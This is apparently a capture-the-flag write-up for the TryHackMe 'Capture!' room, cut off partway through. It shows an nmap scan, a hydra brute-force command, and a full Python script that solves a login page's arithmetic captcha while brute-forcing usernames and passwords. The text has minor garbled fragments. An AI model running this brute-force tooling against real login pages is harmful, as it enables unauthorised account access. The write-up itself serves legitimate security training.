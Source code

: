 # <div align="center">[Capture!](https://tryhackme.com/r/room/capture)</div>

<div align="center">
  <img src="https://github.com/user-attachments/assets/b80bf4c0-f7c0-4d57-9365-cfec6de6020a" height="200"></img>
</div>

# Task 1. Download the file.
# Tast 2. Bypass the login form
## What is the value of flag.txt?
```

```
## Let make a Nmap scan
```
death@esther:~$ nmap 10.10.236.203 -sV 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-02 06:37 IST
Nmap scan report for 10.10.236.203
Host is up (0.15s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug/2.2.2 Python/3.8.10
```
## Let en=

## As we have both user and pass file let try to brute force login page using hydra.
```
sudo hydra -L usernames.txt -P passwords.txt 10.10.236.203 http-post-form "/login:username=^USER^&password=^PASS^:Error" -V -t 40
```

## Hydra didnt find anything,but when i try to login just to check it return me an error

![image](https://github.com/user-attachments/assets/0ae972ca-ff87-4f06-bbd0-4d1b34b97989)

* ### Too many bad login attempts!
* ### Captcha enabled
* ### Error: Invalid captcha

## We need to buypass captcha by creating own python script . it took help of [This script](https://github.com/sakibulalikhan/thm-capture/blob/main/capture.py)

```

#! /bin/python3

import requests
import argparse

def solveCaptcha(captcha):
    if captcha[1] == '+':
        ans = int(captcha[0]) + int(captcha[2])
    elif captcha[1] == '-':
        ans = int(captcha[0]) - int(captcha[2])
    elif captcha[1] == '*':
        ans = int(captcha[0]) * int(captcha[2])
    elif captcha[1] == '/':
        ans = int(captcha[0]) / int(captcha[2])
    return ans

def crackUsername(url, captcha):
    print('[+] Starting username brute force...\n')
    f = open('./usernames.txt', 'r')
    for i in f:
        ans = solveCaptcha(captcha)
        myData = f'username={i.strip()}&password=letmein&captcha={ans}'
        sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
        sReq = sReq.text.split('\n')
        if 'does not exist' not in sReq[104]:
            print(f'!!! Username Found: {i.strip()}\n')
            crackPassword(i.strip(), captcha)
        else:
            captcha = sReq[96].split()

def crackPassword(uName, captcha):
    print('[+] Starting password brute force...\n')
    f = open('./passwords.txt', 'r')
    for i in f:
        ans = solveCaptcha(captcha)
        myData = f'username={uName}&password={i.strip()}&captcha={ans}'
        sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
        if len(sReq.text) < 100:
            print(f'!!! Password Found: {i.strip()}\n')
            print(f'!!! Flag: {sReq.text.split()[1][4:-5]}')
            quit()
        else:
            sReq = sReq.text.split('\n')
            captcha = sReq[96].split()

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Brute force username and password with captcha.')
    parser.add_argument('--host', '-t', type=str, help='Target host URL')
    args = parser.parse_args()

    if args.host:
        url = f'http://{args.host}/login'
        print(f'[+] Starting bruteforce with target URL: {url}\n')
        
        for i in range(0, 10):
            myData = 'username=admin&password=letmein'
            sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
            sReq = sReq.text.split('\n')
            captcha = sReq[96].split()

        crackUsername(url, captcha)
    else:
        print("Error: You have to specify the target host using the --host or -t flag.")
        print("Usage: ./script.py --host $IP")
             
```
## Save this in a file and name somthing with .py extention.
### Install the requirments

